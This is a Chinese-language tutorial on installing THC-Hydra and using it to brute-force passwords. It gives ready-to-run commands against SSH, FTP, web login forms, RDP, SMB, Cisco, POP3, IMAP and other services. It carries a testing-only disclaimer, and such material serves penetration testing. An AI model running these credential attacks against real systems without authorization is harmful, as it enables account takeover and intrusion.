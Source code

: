 # 破解工具hydra安装与使用

注：大家可以到链接[https://download.csdn.net/download/l1028386804/10902002](https://download.csdn.net/download/l1028386804/10902002 ) 下载Hydra一键安装包，内含冰河亲做一键安装脚本，直接运行即可。

**说明：** hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网：http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。 这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。本文仅从安全角度去探讨测试，请勿用于非法事件。

**安装：** 1.yum安装相应依赖包

```
# yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel
```

2.hydra编译安装

```
# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```

**参数：**

```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项
```

**使用：** 1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典

2.破解ssh：

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.8 ssh
```

破解成功，直接显示结果。也可以使用 -o 选项指定结果输出文件。

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns -o save.log 192.168.1.104 ssh
```

其它实例：

1.破解ssh：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
# hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
```

2.破解ftp：

```
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

3.get方式提交，破解web登录：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```

4.post方式提交，破解web登录：

```
# hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）
```

5.破解https：

```
# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
```

6.破解teamspeak：

```
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

7.破解cisco：

```
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

8.破解smb：

```
# hydra -l administrator -P pass.txt 10.36.16.18 smb
```

9.破解pop3：

```
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

10.破解rdp：

```
# hydra ip rdp -l administrator -P pass.txt -V
```

11.破解http-proxy：

```
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

12.破解imap：

```
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果
```

**附录：** 附录1:hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory 如果是ubuntu系统的话，直接apt-get install cmake libssl-dev就可以了。但我系统的centOS，没有找到libssl-dev这东西。因为手#动编译了libssh

```
# yum install cmake
# cd /usr/local/src
# wget http://www.libssh.org/files/0.4/libssh-0.4.8.tar.gz
# tar zxf libssh-0.4.8.tar.gz
# cd libssh-0.4.8
# mkdir build
# cd build
# cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
# make
# make install
# /sbin/ldconfig  //要执行这句，不然会出现hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory

# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```

## 